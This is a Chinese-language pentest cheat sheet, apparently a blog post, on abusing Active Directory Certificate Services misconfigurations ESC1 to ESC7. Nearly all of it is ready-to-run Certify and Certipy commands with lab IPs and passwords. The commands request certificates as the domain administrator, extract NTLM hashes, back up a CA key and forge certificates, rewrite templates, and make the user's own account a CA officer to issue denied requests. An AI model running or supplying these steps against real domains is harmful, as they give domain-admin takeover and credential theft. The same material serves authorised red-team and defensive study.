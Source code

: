 ```yaml
---
title: "ADCS-ESC1-ESC7"
date: 2023-10-04 08:30:23 +0800
category: 渗透测试
tags: [内网,渗透测试,域,ADCS]
excerpt: ADCS-ESC1-ESC7
---
```

## 查找漏洞证书模板

```
Certify.exe find /vulnerable
```

## ESC1

+ 通过证书模板指定administrator获取administrator的证书

```
certipy req -u hacker@shi.com -p 'Zhangsan123!@#' -dc-ip 10.10.10.139 -target 10.10.10.136 -ca shi-CA-CA -template 模板名称 -upn administrator@shi.com -debug
```

+ 验证证书,获取ntlm-hash

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.139 -debug
```

## ESC2

+ 请求证书

```
certipy req -u esc22@shi.com -p 'Admin123!@#' -dc-ip 10.10.10.139 -target 10.10.10.136 -ca shi-CA-CA -target-ip 10.10.10.136 -template esc2ren(证书模板) -debug
```

+ 使用证书代理用户administrator请求证书

```
certipy req -u esc22@shi.com -p 'Admin123!@#' -dc-ip 10.10.10.139 -target 10.10.10.136 -ca shi-CA-CA -target-ip 10.10.10.136 -debug -on-behalf-of "shi\administrator" -pfx esc22.pfx
```

+ 认证

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.139
```

## ESC3

+ 请求证书

```
certipy req -u esc3@shi.com -p 'Admin123!@#' -dc-ip 10.10.10.139 -target 10.10.10.136 -ca shi-CA-CA -target-ip 10.10.10.136 -template esc3 -debug
```

+ 使用证书代理用户administrator请求证书

```
certipy req -u esc3@shi.com -p 'Admin123!@#' -dc-ip 10.10.10.139 -target 10.10.10.136 -ca shi-CA-CA -target-ip 10.10.10.136 -debug -on-behalf-of "shi\administrator" -pfx esc3.pfx
```

+ 认证

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.139
```

## ESC4

+ 修改证书模板配置

```
certipy template -u esc4@shi.com -p 'Admin123!@#' -dc-ip '10.10.10.139' -template esc4 -save-old -debug
```

+ 请求证书

```
certipy req -u esc4@shi.com -p 'Admin123!@#' -dc-ip 10.10.10.139 -target 10.10.10.136 -ca shi-CA-CA -template esc4 -upn administrator@shi.com -debug
```

+ 认证

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.139 -debug
```

+ 恢复

```
certipy template -u esc4@shi.com -p 'Admin123!@#' -dc-ip '10.10.10.139' -template esc4 -configuration esc4.json -debug
```

## ESC5

```
certipy ca -backup -u administrator -p 'admin@123' -ca s-CS-CA -target 10.10.10.145 -debug
```

```
certipy forge -ca-pfx s-CS-CA.pfx -upn ADMINISTRATOR -subject CN=ADMINISTRATOR,CN=USERS,DC=s,DC=com
```

```
certipy auth -pfx administrator_forged.pfx -dc-ip 10.10.10.146 -debug
```

## ESC6

+ 查找EDITF_ATTRIBUTESUBJECTALTNAME2是否启动
```
certipy find -u 'lisi@s.com' -p 'Lsadmin@123' -dc-ip 10.10.10.146 -stdout  | grep "User Specified SAN"
Certipy v4.3.0 - by Oliver Lyak (ly4k)

    User Specified SAN                  : Enabled
```
+ 指定SAN请求证书
> User为一个已经启用的证书模板,理论上可以使用任何已经启用的证书模板
```
//在SAN中指定用户帐户(administrator)
certipy req -u 'lisi@s.com' -p 'Lsadmin@123' -dc-ip 10.10.10.146 -target 10.10.10.145 -ca s-CS-CA -template User -upn administrator@s.com -debug
//或者
//在SAN中指定计算机帐户(DC)
certipy req -u 'lisi@s.com' -p 'Lsadmin@123' -dc-ip 10.10.10.146 -target 10.10.10.145 -ca s-CS-CA -template User -dns dc.s.com
```
+ 使用证书
```
//用户证书
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.146 -debug
//或者
certipy auth -pfx dc.pfx -dc-ip 10.10.10.146 -debug
```

## ESC7

+ 如果您只有`管理CA`的权限(下图)，您可以通过将您的用户添加为新Manage CA来授予自己`颁发和管理证书`(Manage Certificates)权限

```
certipy ca -ca 's-CS-CA' -target 10.10.10.145 -dc-ip 10.10.10.146 -add-officer zhaoliu -u zhaoliu@s.com -p 'Zladmin@123' -debug 
```

+ 默认情况下，SubCA模板处于启用状态，如果SubCA没有启用,可以使用-enable-template启用

```
certipy ca -ca 's-CS-CA' -enable-template SubCA -target 10.10.10.145 -dc-ip 10.10.10.146 -u wangwu@s.com -p 'Wwadmin@123'
```

+ 请求基于SubCA模板的证书。该请求将被拒绝，但我们将保存私钥并记下请求 ID

```
certipy req -u wangwu@s.com -p 'Wwadmin@123' -ca s-CS-CA -target 10.10.10.145 -dc-ip 10.10.10.146 -template SubCA -upn administrator@s.com
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 16
Would you like to save the private key? (y/N) y
[*] Saved private key to 16.key
[-] Failed to request certificate
```

+ 使用我们的`Manage CAand` ，然后我们可以使用命令和参数`Manage Certificates`发出失败的证书请求。`ca-issue-request <request ID>`

```
certipy ca -ca 's-CS-CA' -issue-request 16 -u wangwu@s.com -p 'Wwadmin@123' -target 10.10.10.145 -dc-ip 10.10.10.146 
```

+ `req`最后，我们可以使用命令和`-retrieve ``<request ID>`参数检索颁发的证书

```
certipy req -u wangwu@s.com -p 'Wwadmin@123' -ca s-CS-CA -target 10.10.10.145 -dc-ip 10.10.10.146 -retrieve 16
```

+ 认证

```
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.146 -debug
```

## ESC8

https://shigophilo.github.io/AD-CS-relay-attack-ESC8/